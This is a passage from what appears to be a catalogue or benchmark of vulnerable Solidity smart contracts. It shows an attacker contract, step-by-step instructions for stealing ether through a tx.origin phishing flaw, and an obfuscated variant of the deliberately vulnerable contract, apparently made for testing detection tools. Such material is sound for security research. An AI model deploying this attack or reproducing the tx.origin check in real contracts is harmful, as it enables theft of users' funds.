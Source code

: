 ```javascript
        attacker = msg.sender;
    }
    function attack(address _victim) public {
        Phishable(_victim).variantWithdrawAll(attacker);
    }
    function () public payable{}
}
```

1. deploy contract `Phishable` by victim EOA `0x5B38Da6a701c568545dCfcB03FcB875f56beddC4` with argument `0x5B38Da6a701c568545dCfcB03FcB875f56beddC4`, then get contract address `0x8431717927C4a3343bCf1626e7B5B1D31E240406` [change]
2. call fallback function by victim EOA `0x5B38Da6a701c568545dCfcB03FcB875f56beddC4` with 1 ether
3. deploy contract `Attacker` by attacker EOA `0xAb8483F64d9C6d1EcF9b849Ae677dD3315835cb2`
4. call function `attack` by victim EOA `0x5B38Da6a701c568545dCfcB03FcB875f56beddC4` with argument `0x8431717927C4a3343bCf1626e7B5B1D31E240406`(victim contract address)[change]
5. attacker EOA `0xAb8483F64d9C6d1EcF9b849Ae677dD3315835cb2` steals 1 ether



### 5. phishable_variant_1_confuse&Oxc7771813a253097a5c4aa43bb3751e5be949ac37

#### Source Code

```javascript
pragma solidity ^0.4.22;

contract Oxb3905fa7198fef4af368452616dcb1294e321538 {
    constructor(address Ox77a58f01fb17b4afe08bed4aadab4bd5f03f7710) {
        Ox176df5bc3aa9b46d66b28085feaec995f0e2bbbc
            .Ox34d0936df5cc54ce899b58b4b8353bdf1fac8e76 = Ox77a58f01fb17b4afe08bed4aadab4bd5f03f7710;
    }

    function() public payable {}

    function Oxc7771813a253097a5c4aa43bb3751e5be949ac37(
        address Oxd017dba784a1eba690ec6aff30e142de0c30672c
    ) public {
        require(
            tx.origin ==
                Ox176df5bc3aa9b46d66b28085feaec995f0e2bbbc
                    .Ox34d0936df5cc54ce899b58b4b8353bdf1fac8e76
        );
        Oxd017dba784a1eba690ec6aff30e142de0c30672c.transfer(this.balance);
    }

    struct scalar2Vector {
        address Ox34d0936df5cc54ce899b58b4b8353bdf1fac8e76;
    }
    scalar2Vector Ox176df5bc3aa9b46d66b28085feaec995f0e2bbbc =
        scalar2Vector(address(0));
}

```
